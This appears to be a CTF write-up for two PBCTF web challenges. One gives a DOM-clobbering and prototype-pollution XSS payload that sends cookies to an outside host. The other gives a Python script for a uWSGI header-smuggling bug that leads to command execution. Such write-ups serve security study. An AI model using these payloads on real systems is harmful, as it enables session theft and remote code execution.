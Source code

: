 PBCTF 
 
 
## Ikea Name Gen 
CONFIG.url is used to fetch a json object and merged using lodash merge which is vulnerable to prototype pollution. We can clobber CONFIG.url and return arbitrary JSON object which leads to XSS.

```html
<a id="CONFIG" name="name">
  <a id="CONFIG" href='http://ikea-name-generator.chal.perfect.blue/404.php?msg={"__proto__":{"innerHTML":"\
           <iframe srcdoc=\"<script src=%2526quot;https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js%2526quot;></script>\
                       <div ng-app>  <img src=x ng-on-error=%2526quot;$event.srcElement.ownerDocument.defaultView.fetch(%26%2339;//ctf.s1r1us.ninja?data=%26%2339;%252b$event.srcElement.ownerDocument.cookie)%2526quot; /> \
                       </div>\"></iframe>"}}' name="url" >
  </a><script>
  ```
  
## Simple Note

I spent most of the time on this challenge, couldn't solve during the CTF.



Repro this bug https://bugs.chromium.org/p/project-zero/issues/detail?id=2050


```python

from ptrlib import *
import sys



def pack_uwsgi(var):
    pk =b""
    for k,v in var.items():
        pk += p16(len(k)) + k + p16(len(v)) + v
    fin = b'\x00' + p16(len(pk)) + b'\x00' + pk
    return fin


vars = {
        b'SERVER_PROTOCOL': b'HTTP/1.1',
        b'REQUEST_METHOD': b'GET',
        b'PATH_INFO': b"/",
        b'REQUEST_URI': b"",
        b'QUERY_STRING': b"",
        b'SERVER_NAME': b"",
        b'HTTP_HOST': b"localhost",
        b'UWSGI_FILE': b"exec://echo 1234>/tmp/s1r1us",
        b'SCRIPT_NAME': b"testapp"
    }
RCE = b'\x00'*100+pack_uwsgi(vars)
RCE = RCE.ljust(8000,b'\x00')
#471 extra sub env var
for brute in range(3876,3877):
    sock = Socket('localhost', 18888)
    payload  = b"GET / HTTP/1.0\r\n"
    payload += b"Host: localhost:18888\r\n"
    payload += "Content-Length: {}\r\n".format(len(RCE)).encode()

    for i in range(13): # 57323 0xdfeb
        payload += "{}DUMMYHEAD:{}\r\n".format(chr(0x41+i), str(i)*3800).encode()

    

    payload += "XDUMMYHEAD:{}\r\n".format('X'*brute).encode()


    payload += b"\r\n"+RCE
    print(len(payload)+471)
    sock.send(payload + b"\r\n")

    sock.close()
```  
